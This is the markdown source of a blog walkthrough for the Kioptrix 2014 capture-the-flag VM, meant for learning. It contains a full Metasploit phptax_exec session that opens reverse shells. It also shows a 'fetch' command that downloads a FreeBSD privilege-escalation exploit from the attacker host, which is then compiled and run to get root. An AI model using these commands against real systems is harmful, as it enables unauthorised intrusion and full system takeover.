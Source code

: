 ```yaml
---
layout: blog_item
title:  "Kioptrix Level 2014 Walkthrough"
date:   2024-04-15 14:00:10
author: Dhruv Ambaliya
description: 'Kioptrix 2014 Walkthrough, CTF solution for Kioptrix Level 2014.'
categories: [walkthroughs]
tags:
- Kioptrix
- CTF
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee">Easy</i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.

## Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>

        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 8080</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)</p></pc>
           </td>
        </tr>        

      </tbody>

</table>
</div>


## Web Application Interrogation

<code>http://192.168.221.159:8080/</code> rendered a page 403 forbidden page. The Firefox UserAgent switcher was leveraged to change the browser to IE 6, exposing the web application **PHPTAX** (this took a while to figure out!):


![phptax](/img/blog/kioptrix/phptax.png)

![phptax2](/img/blog/kioptrix/phptax2.png)

## Non Privileged Shell

Research discovered a metasploit module existed for phptax:

{% highlight bash %}

msf > use exploit/multi/http/phptax_exec
msf exploit(phptax_exec) > set RHOST 192.168.221.159
RHOST => 192.168.221.159
msf exploit(phptax_exec) > set RPORT 8080
RPORT => 8080
msf exploit(phptax_exec) > set TARGETURI /phptax/
TARGETURI => /phptax/
msf exploit(phptax_exec) > show options

Module options (exploit/multi/http/phptax_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST      192.168.221.159  yes       The target address
   RPORT      8080             yes       The target port
   TARGETURI  /phptax/         yes       The path to the web application
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   PhpTax 0.8


msf exploit(phptax_exec) > run

[*] [2016.01.07-08:20:41] Started reverse double handler
[*] [2016.01.07-08:20:41] 192.168.221.1598080 - Sending request...
[*] [2016.01.07-08:20:42] Accepted the first client connection...
[*] [2016.01.07-08:20:42] Accepted the second client connection...
[*] [2016.01.07-08:20:42] Accepted the first client connection...
[*] [2016.01.07-08:20:42] Accepted the second client connection...
[*] [2016.01.07-08:20:42] Command: echo GiSakqCyBJv7ZAuW;
[*] [2016.01.07-08:20:42] Writing to socket A
[*] [2016.01.07-08:20:42] Writing to socket B
[*] [2016.01.07-08:20:42] Reading from sockets...
[*] [2016.01.07-08:20:42] Command: echo 4yauS5V9QPhhcobv;
[*] [2016.01.07-08:20:42] Writing to socket A
[*] [2016.01.07-08:20:42] Writing to socket B
[*] [2016.01.07-08:20:42] Reading from sockets...
[*] [2016.01.07-08:20:43] Reading from socket B
[*] [2016.01.07-08:20:43] B: "GiSakqCyBJv7ZAuW\r\n"
[*] [2016.01.07-08:20:43] Matching...
[*] [2016.01.07-08:20:43] A is input...
[*] [2016.01.07-08:20:43] Reading from socket B
[*] [2016.01.07-08:20:43] B: "4yauS5V9QPhhcobv\r\n"
[*] [2016.01.07-08:20:43] Matching...
[*] [2016.01.07-08:20:43] A is input...
[*] Command shell session 1 opened (192.168.221.162:4444 -> 192.168.221.159:45072) at 2016-01-07 08:20:43 -0500
[*] Command shell session 2 opened (192.168.221.162:4444 -> 192.168.221.159:62420) at 2016-01-07 08:20:43 -0500

id
uid=80(www) gid=80(www) groups=80(www)

{% endhighlight %}

## Local Privilege Escalation

The binary <code>fetch</code> was used to download a FreeBSD 9.0-9.1 mmap/ptrace - Privilege Escalation Exploit, fetch was used as the target didn't contain the usual binaries for file download (wget, curl, etc).

{% highlight bash %}

wget
wget: not found

curl
curl: not found

fetch -o exploit http://192.168.221.162:45/26368
exploit                                               2215  B   32 MBps

mv exploit exploit.c
gcc exploit.c -o exploit
./exploit

id
uid=0(root) gid=0(wheel) egid=80(www) groups=80(www)
/bin/sh -i
sh: can't access tty; job control turned off
# cd /root
# ls
.cshrc
.history
.k5login
.login
.mysql_history
.profile
congrats.txt
folderMonitor.log
httpd-access.log
lazyClearLog.sh
monitor.py
ossec-alerts.log
# cat congrats.txt
If you are reading this, it means you got root (or cheated).
Congratulations either way...

Hope you enjoyed this new VM of mine. As always, they are made for the beginner in
mind, and not meant for the seasoned pentester. However this does not mean one
can't enjoy them.

As with all my VMs, besides getting "root" on the system, the goal is to also
learn the basics skills needed to compromise a system. Most importantly, in my mind,
are information gathering & research. Anyone can throw massive amounts of exploits
and "hope" it works, but think about the traffic.. the logs... Best to take it
slow, and read up on the information you gathered and hopefully craft better
more targetted attacks.

For example, this system is FreeBSD 9. Hopefully you noticed this rather quickly.
Knowing the OS gives you any idea of what will work and what won't from the get go.
Default file locations are not the same on FreeBSD versus a Linux based distribution.
Apache logs aren't in "/var/log/apache/access.log", but in "/var/log/httpd-access.log".
It's default document root is not "/var/www/" but in "/usr/local/www/apache22/data".
Finding and knowing these little details will greatly help during an attack. Of course
my examples are specific for this target, but the theory applies to all systems.

As a small exercise, look at the logs and see how much noise you generated. Of course
the log results may not be accurate if you created a snapshot and reverted, but at least
it will give you an idea. For fun, I installed "OSSEC-HIDS" and monitored a few things.
Default settings, nothing fancy but it should've logged a few of your attacks. Look
at the following files:
/root/folderMonitor.log
/root/httpd-access.log (softlink)
/root/ossec-alerts.log (softlink)

The folderMonitor.log file is just a cheap script of mine to track created/deleted and modified
files in 2 specific folders. Since FreeBSD doesn't support "iNotify", I couldn't use OSSEC-HIDS
for this.
The httpd-access.log is rather self-explanatory .
Lastly, the ossec-alerts.log file is OSSEC-HIDS is where it puts alerts when monitoring certain
files. This one should've detected a few of your web attacks.

Feel free to explore the system and other log files to see how noisy, or silent, you were.
And again, thank you for taking the time to download and play.
Sincerely hope you enjoyed yourself.

Be good...


loneferret
http://www.kioptrix.com


p.s.: Keep in mind, for each "web attack" detected by OSSEC-HIDS, by
default it would've blocked your IP (both in hosts.allow & Firewall) for
600 seconds. I was nice enough to remove that part :)

{% endhighlight %}

Thanks for the VM :)

